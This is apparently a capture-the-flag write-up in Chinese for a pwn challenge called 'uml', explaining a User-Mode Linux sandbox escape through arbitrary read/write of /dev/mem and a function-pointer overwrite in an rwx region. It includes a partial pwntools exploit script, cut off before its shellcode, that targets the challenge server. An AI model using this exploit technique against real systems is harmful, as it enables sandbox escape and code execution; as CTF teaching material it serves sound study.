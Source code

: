 ## Pwn

### uml

uml 為 **u**ser**m**ode **l**inux 的縮寫，實際上就是透過 linux 原生的機制讓 kernel 可以在 usermode 用 process 的方式執行，並且建立一個獨立的環境。

這題的 flag 在 host，因此需要做 sandbox escape，而我們在連線後會執行一個 uml，進入 kernel 後會發現預設所持有的權限是 root，意即至少可以存取所有的檔案，不過載入所執行的 `init` 是跑一個可以任意讀檔任意寫檔，但只限定一個檔案的 binary。

而仔細看 binary 後能發現，在讀取檔案時並不會像寫入，寫完會執行 `unwind()` 將 file pointer 設回原點，因此可以透過讀取來將 position 移至任意 offset，並且寫入任意 data。

有了任意讀與任意寫後，下一步是要找被操作的檔案，通常 `/proc` 底下會有一些特殊的檔案，在擁有 root 權限時可以做一些特別的行為，像是直接存取/寫入 kernel 所在的 memory region。然而該 memory region 因為 kernel 是 uml 的關係，因此其實會是修改到 uml 本體，若此時我們可以找出 uml 在執行過程中會經過的 rwx 位址，就能透過蓋寫成任意 shellcode 來做 exploit。

剛好 uml 與 `init` 所執行的 binary 有使用一塊 **rwx** 的 shared memory，並且在 binary 離開時應該會透過 exit 來離開，因此我搜尋了 exit syscall，看是否能 overwrite 掉指向 syscall handler 的 pointer，也嘗試了直接在 **rwx** 蓋寫 data，觀察是否有 crash 來找出會影響到執行流程的行為。而此時我發現一個 function pointer 似乎就是在 binay exit 時，uml 會用此來 handle binary 結束時相關的資源回收。若我們能蓋寫 function pointer 的話，就能蓋成是自己的 shellcode 的位址，並在 uml (usermode) 執行任意的 shellcode。



其中在做 exploit 時，發現直接執行 `sh` 會因為 stdin 的問題而無法使用，並且 `sys_execve()` 也沒辦法傳 **NULL, NULL**，因此我直接寫了一個類似 `ls` 的 shellcode 以及類似 `cat` 的 shellcode，前面 shellcode 是印出當前目錄的檔案，後面是能夠讀取任意檔案並印出，兩者過程都沒有使用到 stdin，因此不會出問題，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('3.115.128.152', 3154)
else:
    r = process('./run.sh')


def write(data):
    r.sendlineafter(':', '1')
    r.sendlineafter('Size?', str(len(data)))
    r.send(data)

def read(size):
    r.sendlineafter(':', '2')
    r.sendlineafter('Size?', str(size))

fn = '/../dev/mem'
r.sendlineafter('Name of note?', fn)

def move_to(offset):
    size = 0x10000
    page = offset // size
    rest = offset % size
    for i in range(page):
        read(size)
        r.recvuntil(f'{size}\r\n')
        out = r.recv(size)
        print(f"{i} / {page}")
    if rest != 0:
        read(rest)
```